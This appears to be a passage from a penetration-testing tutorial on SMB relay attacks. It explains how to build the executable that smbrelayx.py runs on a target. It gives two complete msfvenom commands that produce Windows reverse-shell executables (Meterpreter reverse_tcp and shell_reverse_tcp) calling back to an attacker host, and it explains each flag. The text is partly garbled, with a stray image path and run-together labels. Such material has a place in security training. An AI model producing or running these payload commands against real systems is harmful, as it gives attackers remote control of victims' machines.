

2. payload with msfneom
We have to create a file that will be the input for -e option(file to execute on the target machine) of smbrelayx.py command.
This payload will create a reverse_tcp connection with us.
Meterpreter Shellmsfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=4455 -f exe -o smbexp.exe
→ indicates the payload to use
LHOST → is the host to which the payload will connect (our attacker machine)
LPORT → is the port on which the connection is establish
-f → specifies the format of the file (exe in our case)
-o → tells where to output the file
Netcat Shellmsfvenom -a x86 -p windows/shell_reverse_tcp LHOST=172.16.23.10 LPORT=4444 -f exe -o smbexp.exe